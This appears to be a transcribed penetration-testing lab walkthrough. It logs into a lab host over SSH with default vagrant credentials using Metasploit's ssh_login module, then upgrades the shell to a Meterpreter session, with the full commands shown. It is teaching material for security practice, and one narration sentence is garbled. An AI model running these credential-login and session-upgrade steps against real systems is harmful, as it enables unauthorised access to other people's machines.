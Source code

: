 However, I also want to try and see whether we can gain access with the administrator account. 

```
ssh administrator@10.0.26.161

vagrant
```

Even though we were able to identify the password for the administrator account for FTP, and this is good security practice on the side of the administrator, is they've disabled SSH logins into the administrator account.

We can continue with access via the standard Bourne shell, or we can obtain a Meterpreter session with the already obtained credentials here.

I'll split this vertically here or just open up a new tab.

```
msfconsole
```

And we can use the SSH login module. And once we get a standard session or a standard reverse shell, we can upgrade that into a Meterpreter session.

```
search ssh_login
use 0
show options
set USERNAME vagrant
set PASSWORD vagrant
set RHOSTS 10.0.26.161
run
```

And it opens up an SSH session.

```
sessions
```

We get a standard shell.

```
sessions 1
```

Put this in the background using `Ctrl+z`.

And we still have the session active.

```
sessions
```

So I can upgrade this possibly to a Meterpreter session.

```
sessions -u 1
```

That makes sense because the shell that we have access to right now will not allow us to do that.
